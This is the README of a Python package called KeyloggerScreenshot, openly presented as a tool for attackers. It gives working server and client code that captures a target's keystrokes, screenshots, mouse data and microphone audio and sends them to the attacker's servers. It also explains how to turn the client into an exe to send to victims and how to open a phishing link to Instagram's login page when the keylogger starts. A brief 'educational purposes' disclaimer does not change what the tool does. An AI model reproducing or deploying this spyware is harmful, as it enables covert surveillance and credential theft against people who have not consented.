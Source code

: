 KeyloggerScreenshot
===================

Created by: Fawaz Bashiru

KeyloggerScreenshot allows the attacker to get all the information the target was typing and taking screenshot of specific minutes which is being calculated in the script and all the audio of the target was speaking will be stored where your server is located. You can open a link when the keylogger is executed. Follow the instructions to build your own server in "KeyloggerScreenshot"

check out my github (easier way):

https://github.com/Kill0geR/KeyloggerScreenshot

GITHUB-VERSION (SNEAK PEAK):

![kali_img](https://user-images.githubusercontent.com/106278241/206914635-c9d5e505-9499-4dce-91ed-5254f495929d.png)

SHOUT OUT TO:
-------------
name: dyma020

link to his insta: https://www.instagram.com/dyma020/

He had the idea of the mouse information. He also build the graphical user interface. Big thanks to him

HOW DOES KeyloggerScreenshot WORK?
==================================

To install KeyloggerScreenshot simply write:

`pip install KeyloggerScreenshot`

in your terminal

After that create a server:

Server
------

````python
#EveryServer.py:
import KeyloggerScreenshot as ks
import threading

ip = "127.0.0.1"

ip_photos, port_photos = ip, 1111
server_photos = ks.ServerPhotos(ip_photos, port_photos)

ip_keylogger, port_keylogger = ip, 2222
server_keylogger = ks.ServerKeylogger(ip_keylogger, port_keylogger)

ip_listener, port_listener = ip, 3333
server_listener = ks.ServerListener(ip_listener, port_listener)

ip_time, port_time = ip, 4444
server_time = ks.Timer(ip_time, port_time)

threading_server = threading.Thread(target=server_photos.start)
threading_server.start()

threading_server2 = threading.Thread(target=server_keylogger.start)
threading_server2.start()

threading_server3 = threading.Thread(target=server_listener.start)
threading_server3.start()

threading_server4 = threading.Thread(target=server_time.start_timer)
threading_server4.start()




````

Then create the client

Client
------

````python
#client_target.py
import KeyloggerScreenshot as ks

ip = '127.0.0.1'
key_client = ks.KeyloggerTarget(ip, 1111, ip, 2222, ip, 3333,ip, 4444, duration_in_seconds=60, phishing_web="https://www.instagram.com/accounts/login/?__coig_restricted=1") # You can open a link when the keylogger starts
key_client.start()
````

You can specify the time of running in secunds in the "duration_in_seconds" variable

Information:
------------

* This module can be used in Windows and Linux

* The servers can now be run in the same file with the module threading

* The port number for each server should be different

* The server should obviously be run before the client

* You can just copy the following code and insert you ip-address in the variable "ip"

* You can find your ip-address in the command line by using the command "ipconfig"

* If you want a cool simulation you can specify that in ServerKeylogger by setting the Parameter simulater to True

* You can open a link that you can choose when the keylogger is executed. Set the Parameter "phishing_web" to your link


If everything went right the Output should look like this

Output
------
```python
"""
Cyan: ServerPhotos
Blue: ServerKeylogger
Green: ServerListener
White: Timer


Waiting for connection....Waiting for connection...
Waiting for connection...

Connection has been established ![img_2.png](img_2.png)with the ip 127.0.0.1
Time left: 02:59

Connection has been established with ('127.0.0.1', 63822)
Time left: 00:01Connection has been established with ('127.0.0.1', 63842)

Successful connection for 3 minutes and 20 seconds
"Audio of target.wav" has been saved to your directory
Connection has been established with ('127.0.0.1', 63843)
Text of target: Hello this is a test 123. 123 Nice it works have fun  guys 
1 Image have been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63824)
2 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63825)
3 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63829)
4 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63841)
5 Images has been saved to your working directory
Waiting for connection...

"""
```

Directory of Attacker
---------------------
![img](https://user-images.githubusercontent.com/106278241/218315115-5c84c74e-bb59-4c55-aa26-e9d726d8fa44.png)

Additional
==========
* You can send "target.py" as an exe file to the target with "auto-py-to-exe"

* KeyloggerScreenshot is very easy to use.

* The servers can be used on any OS. The ideal target should use Windows as his OS

* DO NOT USE THIS TO ATTACK SOMEONE FOREIGN. I BUILD IT FOR EDUCATIONAL PURPOSES.
